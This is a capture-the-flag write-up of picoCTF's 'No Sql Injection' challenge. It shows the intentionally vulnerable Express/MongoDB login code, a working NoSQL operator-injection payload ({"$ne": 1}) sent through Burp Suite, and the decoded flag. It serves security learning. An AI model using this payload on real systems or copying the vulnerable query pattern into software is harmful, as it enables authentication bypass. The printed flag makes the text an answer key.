

# picoGym Level 443: No Sql Injection
Source: https://play.picoctf.org/practice/challenge/443

## Goal
Can you try to get access to this website to get the flag?<br>
You can download the source here.<br>
https://artifacts.picoctf.net/c_atlas/38/app.tar.gz<br>
The website is running here. Can you log in?<br>
http://atlas.picoctf.net:59856/

## What I learned
```
Google: MongoDB injection vulnerability
{"$ne": 1}										# HackTricks {"$ne": null}

HackTricks: https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html ⭐⭐⭐⭐⭐
```



## Solution
```
https://webshell.picoctf.org/

AsianHacker-picoctf@webshell:~$ cd /tmp/ ⌨️
AsianHacker-picoctf@webshell:/tmp$ wget https://artifacts.picoctf.net/c_atlas/38/app.tar.gz ⌨️
--2025-08-22 19:49:33--  https://artifacts.picoctf.net/c_atlas/38/app.tar.gz
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 3.170.131.77, 3.170.131.33, 3.170.131.72, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|3.170.131.77|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3362 (3.3K) [application/octet-stream]
Saving to: 'app.tar.gz'

app.tar.gz                                                 100%[======================================================================================================================================>]   3.28K  --.-KB/s    in 0s      

2025-08-22 19:49:33 (2.18 GB/s) - 'app.tar.gz' saved [3362/3362]
																		# 1 Step
AsianHacker-picoctf@webshell:/tmp$ gunzip app.tar.gz ⌨️				    # tar -xvf app.tar.gz ./app/ ⌨️
AsianHacker-picoctf@webshell:/tmp$ ls ⌨️
app.tar  hsperfdata_root  node-compile-cache
AsianHacker-picoctf@webshell:/tmp$ tar -xf app.tar ⌨️
AsianHacker-picoctf@webshell:/tmp$ ls ⌨️
app  app.tar  hsperfdata_root  node-compile-cache
AsianHacker-picoctf@webshell:/tmp$ rm app.tar ⌨️
AsianHacker-picoctf@webshell:/tmp$ cd app ⌨️
AsianHacker-picoctf@webshell:/tmp/app$ ls ⌨️
admin.html  index.html  package.json  server.js
AsianHacker-picoctf@webshell:/tmp/app$ cat server.js ⌨️ 
const express = require("express");
const bodyParser = require("body-parser");
const mongoose = require("mongoose");
const { MongoMemoryServer } = require("mongodb-memory-server");
const path = require("path");
const crypto = require("crypto");

const app = express();
const port = process.env.PORT | 3000;

// Middleware to parse JSON data
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));

// User schema and model
const userSchema = new mongoose.Schema({
  email: { type: String, required: true, unique: true },
  firstName: { type: String, required: true },
  lastName: { type: String, required: true },
  password: { type: String, required: true },
  token: { type: String, required: false, default: "{{Flag}}" },
});

const User = mongoose.model("User", userSchema);

// Initialize MongoMemoryServer and connect to it
async function startServer() {
  try {
    const mongoServer = await MongoMemoryServer.create();
    const mongoUri = mongoServer.getUri();
    await mongoose.connect(mongoUri);

    // Store initial user
    const initialUser = new User({
      firstName: "pico",
      lastName: "player",
      email: "picoplayer355@picoctf.org", 👀
      password: crypto.randomBytes(16).toString("hex").slice(0, 16),
    });
    await initialUser.save();

    // Serve the HTML form
    app.get("/", (req, res) => {
      res.sendFile(path.join(__dirname, "index.html"));
    });

    // Serve the admin page
    app.get("/admin", (req, res) => {
      res.sendFile(path.join(__dirname, "admin.html"));
    });

    // Handle login form submission with JSON
    app.post("/login", async (req, res) => {
      const { email, password } = req.body;

      try {
        const user = await User.findOne({
          email:
            email.startsWith("{") && email.endsWith("}")
              ? JSON.parse(email)
              : email,
          password:
            password.startsWith("{") && password.endsWith("}")
              ? JSON.parse(password)
              : password,
        });

        if (user) {
          res.json({
            success: true,
            email: user.email,
            token: user.token,
            firstName: user.firstName,
            lastName: user.lastName,
          });
        } else {
          res.json({ success: false });
        }
      } catch (err) {
        res.status(500).json({ success: false, error: err.message });
      }
    });

    app.listen(port, () => {
    });
  } catch (err) {
    console.error(err);
  }
}

startServer().catch((err) => console.error(err));
Email: picoplayer355@picoctf.org
Password: {"$ne": 1}

# Inspect → Network (Refresh)
# In Headers noticed redirect, open Burp Suite for Repeater
Status Code 304 Not Modified

# Burp Suite
# Request (Sent to Repeater)
POST /login HTTP/1.1
Host: atlas.picoctf.net:52990
Content-Length: 63
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://atlas.picoctf.net:52990
Referer: http://atlas.picoctf.net:52990/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"email":"picoplayer355@picoctf.org","password":"{\"$ne\": 1}"}

# Response
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 186
ETag: W/"ba-hs16MdMy+WdMG1PuiylPpkCwgrU"
Date: Fri, 22 Aug 2025 20:29:17 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"success":true,"email":"picoplayer355@picoctf.org","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ==","firstName":"pico","lastName":"player"} 👀

# Convert Token from Base64
https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=Y0dsamIwTlVSbnRxUW1oRU1uazNXRzlPZWxCMlh6RlplRk01UlhjMWNVd3dkVWsyY0dGemNXeGZhVzVxWldOMGFXOXVYekkxWW1FMFpHVXhmUT09

AsianHacker-picoctf@webshell:~$ echo -n "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ==" | base64 -d
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_25ba4de1} 🔐
```

## Flag
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_25ba4de1}

## Continue
[Continue](./picoGym0291.md)